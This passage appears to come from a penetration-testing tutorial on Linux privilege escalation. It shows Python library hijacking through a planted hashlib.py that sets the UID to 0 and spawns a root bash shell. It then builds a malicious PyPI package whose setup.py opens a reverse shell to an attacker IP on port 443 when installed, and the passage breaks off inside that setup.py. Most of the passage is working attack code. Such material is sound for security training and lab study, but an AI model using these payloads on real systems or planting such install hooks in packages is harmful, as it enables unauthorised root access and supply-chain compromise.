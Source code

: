And as we see in the first image, that route is in the second position. There may be several cases:

* That the _hashlib_ is not in the second position, but that we have writing capacity in the path /usr/lib/python2.7 '' which should not have it. Well, thanks to that, we would now be doing a library hijacking (hashlib.py), there we could define the instructions we want and execute in the system and therefore, we would alter the flow of a program that imports this library because now it would take ours.

Let's see it with an example:

```python
#!/usr/bin/python

import hashlib

word='hello'
md5=hashlib.md5(word).hexdigest()
print(md5)
```

We have the file **example.py** that it imports from the hashlib library. As we have seen above, the **PATH** pulls the current directory from the job. It is the case that _we do not have write permissions_ on the file _example.py_ but **we do** from the current working directory.

We can create a file called _hashlib.py_ with the following content:

```python
import os

os.setuid(0)
os.system(“/bin/bash”)
```

Running this script should result in a privilege escalation since we're running a module that sets our UID bit to 0 (root) and spawns a bash shell:

```bash
python example.py
```

Thanks to [@sh0x](https://twitter.com/T0N1sm) for giving me some notes.

### PyPi

If the service pypi has an external connection we can follow the steps below in our host (kali):

```
mkdir pypi
cd !$
mkdir pwned
cd !$
touch __init__.py
touch setup.py
```

The file **\_\_init\_\_**.py will be empty and the code of the **setup.py** is the following:

```python
import setuptools
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.205",443)) # YOUR IP and YOUR PORT
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

setuptools.setup(
    name="example-pkg-YOUR-USERNAME-HERE",
    version="0.0.1",
```